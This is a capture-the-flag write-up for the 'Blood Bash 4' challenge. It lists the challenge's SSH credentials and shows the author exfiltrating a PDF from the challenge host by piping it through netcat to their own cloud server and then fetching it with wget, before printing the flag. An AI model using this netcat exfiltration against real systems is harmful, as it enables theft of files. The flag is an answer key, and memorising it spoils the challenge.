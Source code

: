 # [05 - Blood_Bash_4](https://deadface.ctfd.io/challenges#Blood%20Bash%204-16)

## description
```
A sensitive file from De Monne was exfiltrated by mort1cia. It contains data relating to a new web portal they're creating for their consumers. Read the contents of the file and return the flag as flag{flag_goes_here}.

Username: bl0ody_mary
Password: d34df4c3
bloodbash.deadface.io:22
```

## walkthrough

ok, so this has to be retrieval of

```
bl0ody_mary@3f511992bc19:~$ ls -l
-rw-r--r-- 1 bl0ody_mary bl0ody_mary    12444 Sep 14 20:20 'De Monne Customer Portal.pdf'
```

when we try, currently

```
$ scp bl0ody_mary@bloodbash.deadface.io:*.pdf .
bl0ody_mary@bloodbash.deadface.io's password:
the input device is not a TTY
```

was considering `nc` exfil, but don't have a publically accessible IP, so tried to solve with some `.bash_profile` and `.bashrc` checks, `[ "$PS1" == "" ] return;`, to no avail.

spinning up something on GCP and use [nakkaya.com](https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/)


in their machine
```
bl0ody_mary@3f511992bc19:~$ nc -z -v 34.127.24.164 80
Connection to 34.127.24.164 80 port [tcp/*] succeeded!
l0ody_mary@3f511992bc19:~$ nc -w 3 34.127.24.164 80 < 'De Monne Customer Portal.pdf'
```

on GCP
```
conor@bastion:~$ sudo nc -l -v -p 80
listening on [any] 80 ...
164.90.158.159: inverse host lookup failed: Unknown host
connect to [10.138.0.3] from (UNKNOWN) [164.90.158.159] 58962
conor@bastion:~$ sudo nc -l -v -p 80 > foo.pdf
listening on [any] 80 ...
164.90.158.159: inverse host lookup failed: Unknown host
connect to [10.138.0.3] from (UNKNOWN) [164.90.158.159] 58964
conor@bastion:~$ ls -l
total 16
-rw-r--r-- 1 conor conor 12444 Oct 16 01:46 foo.pdf
```

on pride
```
$ wget http://34.127.24.164/foo.pdf
--2021-10-15 19:49:52--  http://34.127.24.164/foo.pdf
Connecting to 34.127.24.164:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 12444 (12K) [application/pdf]
Saving to: ‘foo.pdf’

foo.pdf                                    100%[========================================================================================>]  12.15K  --.-KB/s    in 0.005s

2021-10-15 19:49:52 (2.42 MB/s) - ‘foo.pdf’ saved [12444/12444]


```

opening the PDF, see the flag

## flag
```
flag{deM0nn3_dat4_4_us}
```
